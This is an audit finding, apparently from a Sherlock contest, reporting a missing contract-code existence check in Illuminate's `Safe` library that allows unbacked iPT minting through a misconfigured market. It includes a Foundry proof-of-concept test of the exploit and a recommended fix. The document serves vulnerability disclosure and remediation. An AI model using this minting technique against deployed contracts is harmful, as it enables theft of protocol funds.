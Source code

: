 Jeiwan

medium

# Missing contract code existence check can cause free and unlimited iPT minting

## Summary
Missing contract code existence check can cause free and unlimited iPT minting
## Vulnerability Detail
The `transfer`, `transferFrom`, and `approve` functions of the `Safe` library don't check whether the called address has some code deployed at it ([Safe.sol#L26-L42](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/lib/Safe.sol#L26-L42)). This is a known issue of Solmate, which the library is based on ([SafeTransferLib.sol#L9](https://github.com/transmissions11/solmate/blob/8d910d876f51c3b2585c9109409d601f600e68e1/src/utils/SafeTransferLib.sol#L9)). This can cause false positives when transferring tokens.
## Impact
One exploit scenario that's allowed due to the missing checks is when the `mint` function of `Lender` is called with the principal of a misconfigured or disabled market. This will allow an attacker to mint iPT tokens infinitely without providing required principal tokens in exchange. 
## Code Snippet
```solidity
// test/fork/Lender.t.sol
function testMintUnbacked_AUDIT() public {
    vm.startPrank(msg.sender);
    IERC20(Contracts.ELEMENT_TOKEN).approve(address(l), startingBalance);
    vm.stopPrank();

    l.setMarketPlace(address(mp));

    address[8] memory contracts;
    contracts[0] = Contracts.SWIVEL_TOKEN; // Swivel
    contracts[1] = Contracts.YIELD_TOKEN; // Yield
    contracts[2] = Contracts.ELEMENT_TOKEN; // Element
    // One market is disabled/misconfigured. Its principal token's address will be the zero address.
    // contracts[3] = Contracts.PENDLE_TOKEN; // Pendle
    contracts[4] = Contracts.TEMPUS_TOKEN; // Tempus
    contracts[5] = Contracts.SENSE_TOKEN; // Sense
    contracts[6] = Contracts.APWINE_TOKEN; // APWine
    contracts[7] = Contracts.NOTIONAL_TOKEN; // Notional

    mp.createMarket(
        Contracts.USDC,
        maturity,
        contracts,
        'TEST-TOKEN',
        'TEST',
        Contracts.ELEMENT_VAULT,
        Contracts.APWINE_ROUTER
    );

    runCheatcodes(Contracts.USDC);
    deal(Contracts.PENDLE_TOKEN, msg.sender, startingBalance);

    // Calling mint with the principal of the disabled/misconfigured market.
    // The principal address will be the zero address. The missed contract code
    // checks will make the principal token transfer successful, even though no tokens
    // will be transferred.
    l.mint(uint8(4), Contracts.USDC, maturity, startingBalance);

    address ipt = mp.markets(Contracts.USDC, maturity, 0);

    // The attacker has minted iPT tokens but didn't pay the Pendle tokens.
    assertEq(startingBalance, IERC20(ipt).balanceOf(msg.sender));
    assertEq(startingBalance, IERC20(Contracts.PENDLE_TOKEN).balanceOf(msg.sender));
    assertEq(
        0,
        IERC20(Contracts.PENDLE_TOKEN).balanceOf(address(l))
    );
}
```
## Tool used
Manual Review
## Recommendation
Consider adding the missing contract code checks to the `Safe` library (or use the [OpenZeppelin's implementation](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol)). Also, consider checking for the zero principal address in the `mint` function and other functions that get a principal address:
```diff
--- a/src/Lender.sol
+++ b/src/Lender.sol
@@ -275,6 +275,9 @@ contract Lender {
     ) external unpaused(underlying, maturity, principalId) returns (bool) {
         // Fetch the desired principal token
         address principal = IMarketPlace(marketPlace).token(underlying, maturity, principalId);
+        if (principal == address(0)) {
+            revert(); // Invalid principal address
+        }
```